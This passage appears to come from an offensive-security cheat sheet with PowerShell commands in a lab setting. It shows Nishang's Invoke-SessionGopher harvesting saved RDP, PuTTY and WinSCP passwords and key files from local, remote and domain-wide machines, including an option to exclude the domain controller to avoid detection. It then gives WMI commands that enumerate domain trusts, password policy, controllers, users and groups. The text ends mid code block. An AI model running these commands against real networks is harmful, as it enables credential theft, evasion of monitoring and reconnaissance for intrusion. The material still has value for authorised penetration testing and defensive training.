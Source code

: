 `Invoke-SessionGopher.ps1` is a useful tool to extract information from registry on local or remote (requires admin privs) about RDP, Putty sessions and WinSCP passwords. It is part of  `Nishang`: 

```powershell
# Nishang
. .\nishang\Gather\Invoke-SessionGopher.ps1

# Gather information from the local box
Invoke-SessionGopher -Verbose

# Gather information from a remote box
Invoke-SessionGopher -Verbose -ComputerName "CYBERLAB\COMPUTER01" -Credential "CYBERLAB\STUDENT01"

# Gather information from all domain machines
Invoke-SessionGopher -Verbose -AllDomain -Credential "CYBERLAB\STUDENT01"

# Gather information from all domain machines excluding DC to avoid detection
Invoke-SessionGopher -Verbose -AllDomain -Credential "CYBERLAB\STUDENT01" -ExcludeDC

# Explore filesystem to look for Putty private key files (.ppk), RDP connection files (.rdp) and RSA files (.stdid)
Invoke-SessionGopher -Thorough
```

### Active Directory Enumeration

The following commands must be ran from a domain-joined box:

```powershell
# Classes prefixed with ads_ are abstract, while ds_ are dynamic
Get-WmiObject -Namespace root\directory\ldap -List
Get-CimClass -Namespace root\directory\ldap

# Get the current domain
Get-WmiObject -Namespace root\directory\ldap -Class ds_domain | select -ExpandProperty ds_dc
(Get-WmiObject -Class Win32_ComputerSystem).Domain

# Get domain trusts
Get-WmiObject -Namespace root\directory\ldap -Class ds_trusteddomain | select ds_cn

# Get domain password policy
Get-WmiObject -Namespace root\directory\ldap -Class ds_domain | select DS_lockoutDuration,DS_lockoutObservationWindow,DS_lockoutThreshold,DS_maxPwdAge,DS_minPwdAge,DS_minPwdLength,DS_pwdHistoryLength,DS_pwdProperties

# Get the domain controller
# 532480 is the User Account Control value for the domain controller
Get-WmiObject -Namespace root\directory\ldap -Class ds_computer | Where-Object {$_.ds_userAccountControl -eq 532480} | select ds_cn
# Get all properties removing empty values
(Get-WmiObject -Namespace root\directory\ldap -Class ds_computer | Where-Object {$_.ds_userAccountControl -eq 532480}).Properties | Foreach-Object {if ($_.value -AND $_.name -NOTMATCH "__"){@{ $($_.name) = $($_.value)}}}

# Get all domain users
Get-WmiObject -Class Win32_UserAccount
Get-WmiObject -Class Win32_UserAccount | select name
# Get details of a particular user
Get-WmiObject -Class Win32_UserAccount | Where-Object {$_.name -match "STUDENT1"}
# Get all user of a trusted domain
Get-WmiObject -Class Win32_UserAccount -Filter "Domain = 'CYBERSCHOOL'" | select name

# Get all domain and local groups
Get-WmiObject -Class Win32_Group
# Get all domain groups
```